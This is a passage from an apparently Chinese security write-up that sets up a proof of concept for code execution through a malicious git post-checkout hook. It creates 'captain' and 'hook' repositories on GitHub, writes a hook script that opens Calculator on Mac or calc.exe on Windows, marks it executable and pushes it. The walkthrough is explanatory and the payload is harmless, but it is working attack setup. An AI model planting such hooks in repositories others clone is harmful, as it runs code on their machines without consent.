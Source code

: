 现在，测试几乎已经完成了整个漏洞利用，只是编写它时无需实际创建 git repo，托管在任何流行的 git 服务上。我们将进行一些修改，并指导您在 github.com 托管的 git repos 上重新创建整个设置。  
  
1.创建两个空的   
repos -captain和  
hook。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacBibxicHopIClDb3fNj4AeZuvKxqZTEPHDkE5ZCBhmVbIoZ9StIBlfComxibsqOBaiaiaz84pUZRvfQpg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacBibxicHopIClDb3fNj4AeZuK4MbCSPL78GM3n9QL3RzjXes13oEPPAUh3ksqOUKSJS92rC5u8pibtQ/640?wx_fmt=png&from=appmsg "")  
  
2.  
git clone将上述每一个复制到您的本地机器上。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacBibxicHopIClDb3fNj4AeZuZWlFq7moOTqdwfriaL1jpjAkdAtEezw0Lro1ccG4KLMN7pia1PmkEZAg/640?wx_fmt=png&from=appmsg "")  
  
git clone 两个仓库  
  
3.进入  
hook目录 -并使用命令   
-cd hook创建目录- 。  
y/hooksmkdir -p y/hooks  
  
4.  
hooks现在在文件夹内的新目录中创建一个文件  
y，名称为 -   
post-checkout-   
touch ./y  
/hooks/post-checkout  
。现在目录结构应该是这样的 -  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacBibxicHopIClDb3fNj4AeZu4Yo7Rnb2gx3VSpic1RM7a9wjVNbhBjG79uxrGTNCHv5ul94gkYniaXgQ/640?wx_fmt=png&from=appmsg "")  
  
现在我们要创建特定名称的文件的原因post-checkout是因为post-checkout它是一个git hook。因此，使用 git hooks ，你可以在发生某些重要操作时执行自定义脚本，例如在本例中，当用户在其机器上签出代码时。  
  
5.在./y/hooks/post-checkout文件中添加此代码片段 -  
```
#!/bin/sh
open -a Calculator
```  
  
在 Mac 上执行上述脚本时，会打开一个计算器。在 Windows 上，有效载荷将更改为 -  
```
#!/bin/sh
powershell -Command "Start-Process 'calc.exe'"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacBibxicHopIClDb3fNj4AeZuMecQMuKt0uUOb5kTvULjmmkkibibnRN2HtBXXZxVGLbznahLesiaYwEgg/640?wx_fmt=png&from=appmsg "")  
  
6. 让我们使其  
post-checkout可执行   
- git update-index --chmod=+x y/hooks/post-checkout   
  
7. 现在暂存更改，提交更改并推送   
- git add . && git commit -m post-checkout && git push origin main。  
  